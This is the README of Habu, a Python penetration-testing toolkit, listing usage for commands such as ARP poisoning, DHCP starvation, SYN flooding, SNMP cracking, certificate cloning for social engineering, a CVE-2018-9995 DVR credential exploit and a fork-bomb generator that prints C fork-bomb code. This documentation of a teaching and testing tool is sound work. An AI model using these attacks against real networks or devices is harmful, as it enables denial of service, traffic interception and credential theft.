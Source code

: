 Habu: Hacking Toolkit
=====================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

Some techniques implemented in the current version are:

* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

The development of this software is supported by Securetia SRL (https://www.securetia.com/)

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/portantier/habu

Installation
------------

**Kali Linux:**

You can install the package created for Kali Linux. See
https://github.com/portantier/habu/releases

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

```
$ pip3 install habu
```

**Microsoft Windows**:

Install it with the pip method.

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------

* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `cert.clone <#habucertclone>`_
* `cert.names <#habucertnames>`_
* `config.del <#habuconfigdel>`_
* `config.set <#habuconfigset>`_
* `config.show <#habuconfigshow>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `cve.2018.9995 <#habucve20189995>`_
* `cymon.ip <#habucymonip>`_
* `cymon.ip.timeline <#habucymoniptimeline>`_
* `decrypt.gppref <#habudecryptgppref>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `dns.lookup.forward <#habudnslookupforward>`_
* `dns.lookup.reverse <#habudnslookupreverse>`_
* `eicar <#habueicar>`_
* `expand <#habuexpand>`_
* `extract.domain <#habuextractdomain>`_
* `extract.email <#habuextractemail>`_
* `extract.hostname <#habuextracthostname>`_
* `extract.ipv4 <#habuextractipv4>`_
* `fernet <#habufernet>`_
* `fernet.genkey <#habufernetgenkey>`_
* `filter <#habufilter>`_
* `forkbomb <#habuforkbomb>`_
* `gateway.find <#habugatewayfind>`_
* `hasher <#habuhasher>`_
* `host <#habuhost>`_
* `http.headers <#habuhttpheaders>`_
* `http.options <#habuhttpoptions>`_
* `interfaces <#habuinterfaces>`_
* `ip <#habuip>`_
* `ip2asn <#habuip2asn>`_
* `ip.geolocation <#habuipgeolocation>`_
* `ip.internal <#habuipinternal>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma <#habukarma>`_
* `karma.bulk <#habukarmabulk>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.excluded <#habunmapexcluded>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan <#habushodan>`_
* `shodan.open <#habushodanopen>`_
* `shodan.query <#habushodanquery>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `web.tech <#habuwebtech>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

    Usage: habu.arp.ping [OPTIONS] IP
    
      Send ARP packets to check if a host it's alive in the local network.
    
      Example:
    
      # habu.arp.ping 192.168.0.1
      Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose output
      --help   Show this message and exit.
    

habu.arp.poison
---------------

.. code-block::

    Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2
    
      Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
      send the traffic to your system.
    
      Note: If you want a full working Man In The Middle attack, you need to
      enable the packet forwarding on your operating system to act like a
      router. You can do that using:
    
      # echo 1 > /proc/sys/net/ipv4/ip_forward
    
      Example:
    
      # habu.arpoison 192.168.0.1 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      ...
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose
      --help   Show this message and exit.
    

habu.arp.sniff
--------------

.. code-block::

    Usage: habu.arp.sniff [OPTIONS]
    
      Listen for ARP packets and show information for each device.
    
      Columns: Seconds from last packet | IP | MAC | Vendor
    
      Example:
    
      1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
      7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
      2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
      6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd
    
    Options:
      -i TEXT  Interface to use
      --help   Show this message and exit.
    

habu.asydns
-----------

.. code-block::

    Usage: habu.asydns [OPTIONS]
    
      Requests a DNS domain name based on public and private RSA keys using the
      AsyDNS protocol https://github.com/portantier/asydns
    
      Example:
    
      $ habu.asydns -v
      Generating RSA key ...
      Loading RSA key ...
      {
          "ip": "181.31.41.231",
          "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
      }
    
      $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
      181.31.41.231
    
    Options:
      -u TEXT  API URL
      -g       Force the generation of a new key pair
      -r       Revoke the public key
      -v       Verbose output
      --help   Show this message and exit.
    

habu.b64
--------

.. code-block::

    Usage: habu.b64 [OPTIONS] [F]
    
      Encodes or decode data in base64, just like the command base64.
    
      $ echo awesome | habu.b64
      YXdlc29tZQo=
    
      $ echo YXdlc29tZQo= | habu.b64 -d
      awesome
    
    Options:
      -d      decode instead of encode
      --help  Show this message and exit.
    

habu.cert.clone
---------------

.. code-block::

    Usage: habu.cert.clone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE
    
      Connect to an SSL/TLS server, get the certificate and generate a
      certificate with the same options and field values.
    
      Note: The generated certificate is invalid, but can be used for social
      engineering attacks
    
      Example:
    
      $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem
    
    Options:
      --copy-extensions  Copy certificate extensions (default: False)
      --expired          Generate an expired certificate (default: False)
      -v                 Verbose
      --help             Show this message and exit.
    

habu.cert.names
---------------

.. code-block::

    Usage: habu.cert.names [OPTIONS] [NETWORK]
    
      Connects to each host/port and shows a summary of the certificate names.
    
      The hosts to connect to are taken from two possible options:
    
      1) -i option (stdin by default). A file where each line is a host or
      network 2) An argument that can be a host or network
    
      If you use both methods, the hosts and networks are merged into one list.
    
      Example:
    
      $ habu.cert.names 2.18.60.240/29
      2.18.60.241         443 i.s-microsoft.com microsoft.com privacy.microsoft.com
      2.18.60.242         443 aod-ssl.itunes.apple.com aod.itunes.apple.com aodp-ssl.itunes.apple.com
      2.18.60.243         443 *.mlb.com mlb.com
      2.18.60.244         443 [SSL: TLSV1_ALERT_INTERNAL_ERROR] tlsv1 alert internal error (_ssl.c:1056)
      2.18.60.245         443 cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-ubiservices.ubi.com
      2.18.60.246         443 *.blog.sina.com.cn *.dmp.sina.cn
    
      aod.itunes.apple.com aodp-ssl.itunes.apple.com aod-ssl.itunes.apple.com
      *.blog.sina.com.cn cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-
      ubiservices.ubi.com *.dmp.sina.cn i.s-microsoft.com microsoft.com
      *.mlb.com mlb.com privacy.microsoft.com
    
    Options:
      -p TEXT      Ports to connect to (comma separated list)
      -i FILENAME  Input file (Default: stdin)
      -t FLOAT     Time to wait for each connection
      -v           Verbose output
      --help       Show this message and exit.
    

habu.config.del
---------------

.. code-block::

    Usage: habu.config.del [OPTIONS] KEY
    
      Delete a KEY from the configuration.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.del DNS_SERVER
    
    Options:
      --help  Show this message and exit.
    

habu.config.set
---------------

.. code-block::

    Usage: habu.config.set [OPTIONS] KEY VALUE
    
      Set VALUE to the config KEY.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.set DNS_SERVER 8.8.8.8
    
    Options:
      --help  Show this message and exit.
    

habu.config.show
----------------

.. code-block::

    Usage: habu.config.show [OPTIONS]
    
      Show the current config.
    
      Note: By default, the options with 'KEY' in their name are shadowed.
    
      Example:
    
      $ habu.config.show
      {
          "DNS_SERVER": "8.8.8.8",
          "FERNET_KEY": "*************"
      }
    
    Options:
      --show-keys       Show also the key values
      --option TEXT...  Write to the config(KEY VALUE)
      --help            Show this message and exit.
    

habu.contest
------------

.. code-block::

    Usage: habu.contest [OPTIONS]
    
      Try to connect to various services and check if can reach them using your
      internet connection.
    
      Example:
    
      $ habu.contest
      IP:    True
      DNS:   True
      FTP:   True
      SSH:   True
      HTTP:  True
      HTTPS: True
    
    Options:
      --help  Show this message and exit.
    

habu.crack.luhn
---------------

.. code-block::

    Usage: habu.crack.luhn [OPTIONS] NUMBER
    
      Having known values for a Luhn validated number, obtain the possible
      unknown numbers.
    
      Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
      National Provider Identifier in the United States, Canadian Social
      Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
      (ΑΜΚΑ).
    
      The '-' characters are ignored.
    
      Define the missing numbers with the 'x' character.
    
      Reference: https://en.wikipedia.org/wiki/Luhn_algorithm
    
      Example:
    
      $ habu.crack.luhn 4509-xxxx-3160-6445
    
    Options:
      --help  Show this message and exit.
    

habu.crack.snmp
---------------

.. code-block::

    Usage: habu.crack.snmp [OPTIONS] IP
    
      Launches snmp-get queries against an IP, and tells you when finds a valid
      community string (is a simple SNMP cracker).
    
      The dictionary used is the distributed with the onesixtyone tool
      https://github.com/trailofbits/onesixtyone
    
      Example:
    
      # habu.crack.snmp 179.125.234.210
      Community found: private
      Community found: public
    
      Note: You can also receive messages like \<UNIVERSAL\> \<class
      'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
      them for now.
    
    Options:
      -p INTEGER  Port to use
      -c TEXT     Community (default: list of most used)
      -s          Stop after first match
      -v          Verbose
      --help      Show this message and exit.
    

habu.crtsh
----------

.. code-block::

    Usage: habu.crtsh [OPTIONS] DOMAIN
    
      Downloads the certificate transparency logs for a domain and check with
      DNS queries if each subdomain exists.
    
      Uses multithreading to improve the performance of the DNS queries.
    
      Example:
    
      $ sudo habu.crtsh securetia.com
      [
          "karma.securetia.com.",
          "www.securetia.com."
      ]
    
    Options:
      -c      Disable cache
      -n      Disable DNS subdomain validation
      -v      Verbose output
      --help  Show this message and exit.
    

habu.cve.2018.9995
------------------

.. code-block::

    Usage: habu.cve.2018.9995 [OPTIONS] IP
    
      Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.
    
      Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).
    
      Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995
    
      Example:
    
      $ python habu.cve.2018-9995 82.202.102.42
      [
          {
              "uid": "admin",
              "pwd": "securepassword",
              "role": 2,
              "enmac": 0,
              "mac": "00:00:00:00:00:00",
              "playback": 4294967295,
              "view": 4294967295,
              "rview": 4294967295,
              "ptz": 4294967295,
              "backup": 4294967295,
              "opt": 4294967295
          }
      ]
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -v          Verbose
      --help      Show this message and exit.
    

habu.cymon.ip
-------------

.. code-block::

    Usage: habu.cymon.ip [OPTIONS] IP
    
      Simple cymon API client.
    
      Prints the JSON result of a cymon IP query.
    
      Example:
    
      $ habu.cymon.ip 8.8.8.8
      {
          "addr": "8.8.8.8",
          "created": "2015-03-23T12:03:42Z",
          "updated": "2018-08-24T04:06:07Z",
          "sources": [
              "safeweb.norton.com",
              "botscout.com",
              "virustotal.com",
              "phishtank"
          ],
          "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
          "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
          "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.cymon.ip.timeline
----------------------

.. code-block::

    Usage: habu.cymon.ip.timeline [OPTIONS] IP
    
      Simple cymon API client.
    
      Prints the JSON result of a cymon IP timeline query.
    
      Example:
    
      $ habu.cymon.ip.timeline 8.8.8.8
      {
          "timeline": [
              {
                  "time_label": "Aug. 18, 2018",
                  "events": [
                      {
                          "description": "Posted: 2018-08-18 23:37:39 CEST IDS Alerts: 0 URLQuery Alerts: 1 ...",
                          "created": "2018-08-18T21:39:07Z",
                          "title": "Malicious activity reported by urlquery.net",
                          "details_url": "http://urlquery.net/report/b1393866-9b1f-4a8e-b02b-9636989050f3",
                          "tag": "malicious activity"
                      }
                  ]
              },
              ...
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      -p           Pretty output
      --help       Show this message and exit.
    

habu.decrypt.gppref
-------------------

.. code-block::

    Usage: habu.decrypt.gppref [OPTIONS] PASSWORD
    
      Decrypt the password of local users added via Windows 2008 Group Policy
      Preferences.
    
      This value is the 'cpassword' attribute embedded in the Groups.xml file,
      stored in the domain controller's Sysvol share.
    
      Example:
    
      # habu.decrypt.gppref AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
      testpassword
    
    Options:
      --help  Show this message and exit.
    

habu.dhcp.discover
------------------

.. code-block::

    Usage: habu.dhcp.discover [OPTIONS]
    
      Send a DHCP request and show what devices has replied.
    
      Note: Using '-v' you can see all the options (like DNS servers) included
      on the responses.
    
      # habu.dhcp_discover
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dhcp.starvation
--------------------

.. code-block::

    Usage: habu.dhcp.starvation [OPTIONS]
    
      Send multiple DHCP requests from forged MAC addresses to fill the DHCP
      server leases.
    
      When all the available network addresses are assigned, the DHCP server
      don't send responses.
    
      So, some attacks, like DHCP spoofing, can be made.
    
      # habu.dhcp_starvation
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -s INTEGER  Time (seconds) between requests
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dns.lookup.forward
-----------------------

.. code-block::

    Usage: habu.dns.lookup.forward [OPTIONS] HOSTNAME
    
      Perform a forward lookup of a given hostname.
    
      Example:
    
      $ habu.dns.lookup.forward google.com
      {
          "ipv4": "172.217.168.46",
          "ipv6": "2a00:1450:400a:802::200e"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.dns.lookup.reverse
-----------------------

.. code-block::

    Usage: habu.dns.lookup.reverse [OPTIONS] IP_ADDRESS
    
      Perform a reverse lookup of a given IP address.
    
      Example:
    
      $ $ habu.dns.lookup.reverse 8.8.8.8
      {
          "hostname": "google-public-dns-a.google.com"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.eicar
----------

.. code-block::

    Usage: habu.eicar [OPTIONS]
    
      Print the EICAR test string that can be used to test antimalware engines.
    
      More info: http://www.eicar.org/86-0-Intended-use.html
    
      Example:
    
      $ habu.eicar
      X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
    
    Options:
      --help  Show this message and exit.
    

habu.expand
-----------

.. code-block::

    Usage: habu.expand [OPTIONS]
    
      Expand data to add interesting information.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.expand
      [
          {
              "asset": "8.8.8.8",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          },
          {
              "asset": "8.8.4.4",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.4.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --help       Show this message and exit.
    

habu.extract.domain
-------------------

.. code-block::

    Usage: habu.extract.domain [OPTIONS] [INFILE]
    
      Extract valid domains from a file or stdin.
    
      Optionally, check each domain for the presence of NS registers.
    
      Example:
    
      $ cat /var/log/some.log | habu.extract.domain -c
      google.com
      ibm.com
      redhat.com
    
    Options:
      -c      Check if domain has NS servers defined
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.extract.email
------------------

.. code-block::

    Usage: habu.extract.email [OPTIONS] [INFILE]
    
      Extract email addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.email
      john@securetia.com
      raven@acmecorp.net
      nmarks@fimax.com
    
    Options:
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.extract.hostname
---------------------

.. code-block::

    Usage: habu.extract.hostname [OPTIONS] [INFILE]
    
      Extract hostnames from a file or stdin.
    
      Example:
    
      $ cat /var/log/some.log | habu.extract.hostname
      www.google.com
      ibm.com
      fileserver.redhat.com
    
    Options:
      -c      Check if hostname resolves
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.extract.ipv4
-----------------

.. code-block::

    Usage: habu.extract.ipv4 [OPTIONS] [INFILE]
    
      Extract IPv4 addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4
      172.217.162.4
      23.52.213.96
      190.210.43.70
    
    Options:
      --json  JSON output
      -v      Verbose output
      --help  Show this message and exit.
    

habu.fernet
-----------

.. code-block::

    Usage: habu.fernet [OPTIONS]
    
      Fernet cipher.
    
      Uses AES-128-CBC with HMAC
    
      Note: You must use a key to cipher with Fernet.
    
      Use the -k paramenter or set the FERNET_KEY configuration value.
    
      The keys can be generated with the command habu.fernet.genkey
    
      Reference: https://github.com/fernet/spec/blob/master/Spec.md
    
      Example:
    
      $ "I want to protect this string" | habu.fernet
      gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...
    
      $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.fernet -d
      I want to protect this string
    
    Options:
      -k TEXT        Key
      -d             Decrypt instead of encrypt
      --ttl INTEGER  Time To Live for timestamp verification
      -i FILENAME    Input file (default: stdin)
      -o FILENAME    Output file (default: stdout)
      --help         Show this message and exit.
    

habu.fernet.genkey
------------------

.. code-block::

    Usage: habu.fernet.genkey [OPTIONS]
    
      Generate a new Fernet Key, optionally write it to ~/.habu.json
    
      Example:
    
      $ habu.fernet.genkey
      xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=
    
    Options:
      -w      Write this key to ~/.habu.json
      --help  Show this message and exit.
    

habu.filter
-----------

.. code-block::

    Usage: habu.filter [OPTIONS] FIELD [gt|lt|eq|ne|ge|le|in|contains|defined|un
                         defined|true|false] [VALUE]
    
      Filter data based on operators.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.expand | habu.filter cc eq US
      [
          {
              "asset": "8.8.8.8",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --not        Negate the comparison
      --help       Show this message and exit.
    

habu.forkbomb
-------------

.. code-block::

    Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]
    
      A shortcut to remember how to use fork bombs in different languages.
    
      Currently supported: bash, batch, c, haskell, perl, php, python, ruby.
    
      Example:
    
      $ habu.forkbomb c
      #include <unistd.h>
      int main()
      {
          while(1)
          {
              fork();
          }
          return 0;
      }
    
    Options:
      --help  Show this message and exit.
    

habu.gateway.find
-----------------

.. code-block::

    Usage: habu.gateway.find [OPTIONS] NETWORK
    
      Try to reach an external IP using any host has a router.
    
      Useful to find routers in your network.
    
      First, uses arping to detect alive hosts and obtain MAC addresses.
    
      Later, create a network packet and put each MAC address as destination.
    
      Last, print the devices that forwarded correctly the packets.
    
      Example:
    
      # habu.find.gateway 192.168.0.0/24
      192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
      192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
      192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom
    
    Options:
      -i TEXT                Interface to use
      --host TEXT            Host to reach (default: 8.8.8.8)
      --tcp                  Use TCP instead of ICMP
      --dport INTEGER RANGE  Destination port for TCP (default: 80)
      --timeout INTEGER      Timeout in seconds (default: 5)
      -v                     Verbose output
      --help                 Show this message and exit.
    

habu.hasher
-----------

.. code-block::

    Usage: habu.hasher [OPTIONS] [F]
    
      Compute various hashes for the input data, that can be a file or a stream.
    
      Example:
    
      $ habu.hasher README.rst
      md5          992a833cd162047daaa6a236b8ac15ae README.rst
      ripemd160    0566f9141e65e57cae93e0e3b70d1d8c2ccb0623 README.rst
      sha1         d7dbfd2c5e2828eb22f776550c826e4166526253 README.rst
      sha256       6bb22d927e1b6307ced616821a1877b6cc35e... README.rst
      sha512       8743f3eb12a11cf3edcc16e400fb14d599b4a... README.rst
      whirlpool    96bcc083242e796992c0f3462f330811f9e8c... README.rst
    
      You can also specify which algorithm to use. In such case, the output is
      only the value of the calculated hash:
    
      $ habu.hasher -a md5 README.rst
      992a833cd162047daaa6a236b8ac15ae README.rst
    
    Options:
      -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                      Only this algorithm (Default: all)
      --help                          Show this message and exit.
    

habu.host
---------

.. code-block::

    Usage: habu.host [OPTIONS]
    
      Collect information about the host where habu is running.
    
      Example:
    
      $ habu.host
      {
          "kernel": [
              "Linux",
              "demo123",
              "5.0.6-200.fc29.x86_64",
              "#1 SMP Wed Apr 3 15:09:51 UTC 2019",
              "x86_64",
              "x86_64"
          ],
          "distribution": [
              "Fedora",
              "29",
              "Twenty Nine"
          ],
          "libc": [
              "glibc",
              "2.2.5"
          ],
          "arch": "x86_64",
          "python_version": "3.7.3",
          "os_name": "Linux",
          "cpu": "x86_64",
          "static_hostname": "demo123",
          "fqdn": "demo123.lab.sierra"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.http.headers
-----------------

.. code-block::

    Usage: habu.http.headers [OPTIONS] SERVER
    
      Retrieve the HTTP headers of a web server.
    
      Example:
    
      $ habu.http.headers http://duckduckgo.com
      {
          "Server": "nginx",
          "Date": "Sun, 14 Apr 2019 00:00:55 GMT",
          "Content-Type": "text/html",
          "Content-Length": "178",
          "Connection": "keep-alive",
          "Location": "https://duckduckgo.com/",
          "X-Frame-Options": "SAMEORIGIN",
          "Content-Security-Policy": "default-src https: blob: data: 'unsafe-inline' 'unsafe-eval'",
          "X-XSS-Protection": "1;mode=block",
          "X-Content-Type-Options": "nosniff",
          "Referrer-Policy": "origin",
          "Expect-CT": "max-age=0",
          "Expires": "Mon, 13 Apr 2020 00:00:55 GMT",
          "Cache-Control": "max-age=31536000"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.options
-----------------

.. code-block::

    Usage: habu.http.options [OPTIONS] SERVER
    
      Retrieve the available HTTP methods of a web server.
    
      Example:
    
      $ habu.http.options -v http://google.com
      {
          "allowed": "GET, HEAD"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.interfaces
---------------

.. code-block::

    Usage: habu.interfaces [OPTIONS]
    
      Show the network interfaces available on the system.
    
      Example:
    
      # habu.interfaces
      #  NAME                            MAC                INET             INET6
      0  eth0                            80:fa:5b:4b:f9:18  None             None
      1  lo                              00:00:00:00:00:00  127.0.0.1        ::1
      2  wlan0                           f4:96:34:e5:ae:1b  192.168.0.6      None
      3  vboxnet0                        0a:00:27:00:00:00  192.168.56.1     fe80::800:27ff:fe00:0
    
    Options:
      -j      Output in JSON format
      --help  Show this message and exit.
    

habu.ip
-------

.. code-block::

    Usage: habu.ip [OPTIONS]
    
      Get the public IP address of the connection from https://api.ipify.org.
    
      Example:
    
      $ habu.ip
      {
          "ip_external": "80.219.53.185"
      }
    
    Options:
      --help  Show this message and exit.
    

habu.ip2asn
-----------

.. code-block::

    Usage: habu.ip2asn [OPTIONS] IP
    
      Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.
    
      Reference: https://www.team-cymru.com/IP-ASN-mapping.html
    
      $ habu.ip2asn 8.8.8.8
      {
          "asn": "15169",
          "net": "8.8.8.0/24",
          "cc": "US",
          "rir": "ARIN",
          "asname": "GOOGLE - Google LLC, US",
          "country": "United States"
      }
    
    Options:
      --help  Show this message and exit.
    

habu.ip.geolocation
-------------------

.. code-block::

